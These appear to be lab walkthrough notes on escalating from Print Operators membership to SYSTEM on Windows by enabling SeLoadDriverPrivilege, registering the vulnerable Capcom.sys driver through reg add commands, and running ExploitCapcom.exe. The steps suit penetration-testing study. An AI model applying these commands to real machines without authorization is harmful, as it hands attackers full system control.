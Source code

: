 ## What is Print Operators (SeLoadDriverPrivilege)?
A Windows group with high privileges, especially on Domain Controllers.

Members can:
- Load drivers (SeLoadDriverPrivilege)
- Shut down the system
- Log in to Domain Controllers

### Step-by-Step Summary
#### 1.  Confirm Privileges
Use `whoami /priv` to check if `SeLoadDriverPrivilege` is enabled.

If not visible, you may need to bypass UAC or run an elevated shell.

#### 2.  Enable the Driver Privilege
Compile and run `EnableSeLoadDriverPrivilege.cpp` (given in the lab).
`EnableSeLoadDriverPrivilege.cpp` code
```c
#include <windows.h>
#include <assert.h>
#include <winternl.h>
#include <sddl.h>
#include <stdio.h>
#include "tchar.h"
```
Compile with cl.exe
```cmd
cl /DUNICODE /D_UNICODE EnableSeLoadDriverPrivilege.cpp
```

After running it, `SeLoadDriverPrivilege` will be visible and enabled.

#### 3.  Load the Vulnerable Driver (Capcom.sys)
Download `Capcom.sys` to `C:\Tools`.
Use these commands to set up the registry:
```cmd
reg add HKCU\System\CurrentControlSet\CAPCOM /v ImagePath /t REG_SZ /d "\??\C:\Tools\Capcom.sys"

reg add HKCU\System\CurrentControlSet\CAPCOM /v Type /t REG_DWORD /d 1
```
This tricks the system into loading the driver from a user registry path.
### 4.  Run the Exploit
Run ExploitCapcom.exe.
It exploits the Capcom.sys driver to run shellcode and gives SYSTEM access.
You now get a SYSTEM shell, the highest privilege in Windows.

